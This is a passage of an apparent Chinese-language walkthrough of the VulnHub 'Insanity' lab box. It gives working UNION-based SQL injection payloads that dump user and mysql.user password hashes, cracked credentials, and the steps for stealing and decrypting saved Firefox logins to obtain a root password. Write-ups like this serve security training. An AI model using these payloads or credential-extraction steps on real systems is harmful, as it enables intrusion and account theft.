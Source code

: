 <img width="1914" height="182" alt="Image" src="https://github.com/user-attachments/assets/c87d712c-a4be-441f-babb-0a7547df46c7" />
查询出来三个表先看看 users 有没有凭据

`test" union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name=‘users’ -- -`

`test" union select 1,2,group_concat(username),group_concat(password) from monitoring.users -- -`

然后拿到三组凭据，但是都破解不开，然后又卡住了，一直以为是没爆破好，最后看提示正确的姿势是系统数据库下的user表

`test" union select 1,group_concat(user),group_concat(password),group_concat(authentication_string) from mysql.user -- -`

这里可以拿到 root 和 elliot 的hash凭据
但是 root 的 hash 破解不开，elliot 的 hash 可以破解**elliot:elliot123**

# 用户提权
使用上面 sql 注入出来的一组凭据登录，开始找提权路径。
懒得手动找了，直接上传 linpeas 扫一遍。
看完输出结果好像没什么可以利用的，试了很多内核漏洞的 exp 均失败，刚进来的时候看到 home 下有很多文件夹还没来得及看，翻翻找找在 .mozilla 目录下看到浏览器的一些信息，最后在 firefox/esmhp32w.default-default 目录下看到一个 logins.json ，跟登录有关
```
{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://localhost:10000",
      "httpRealm": null,
      "formSubmitURL": "https://localhost:10000",
      "usernameField": "user",
      "passwordField": "pass",
      "encryptedUsername": "MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECMXc5x8GLVkkBAh48YcssjnBnQ==",
      "encryptedPassword": "MEoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPPLux2+J9fKBCApSMIepx/VWtv0rQLkpiuLygt0rrPPRRFoOIlJ40XYbg==",
      "guid": "{0b89dfcb-2db3-499c-adf0-9bd7d87ccd26}",
      "encType": 1,
      "timeCreated": 1597591517872,
      "timeLastUsed": 1597595253716,
      "timePasswordChanged": 1597595253716,
      "timesUsed": 2
    }
  ],
  "version": 2
}
```
搜索发现这个加密需要本地的 key4.db（密钥数据库）配合解密。我利用到这个[工具](https://github.com/unode/firefox_decrypt)来解密。
看了说明，将 **.mozilla** 这个目录直接全部打包，然后使用ssh的scp拿到kali上放到用户 **家目录** 下，然后直接运行py文件。
```
┌──(kali㉿kali)-[~/…/writeup/vulnhub/insanity/firefox_decrypt-main]
└─$ ./firefox_decrypt.py
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
                                                                                                                                                             
┌──(kali㉿kali)-[~/…/writeup/vulnhub/insanity/firefox_decrypt-main]
└─$ 
```
真出来了，我去。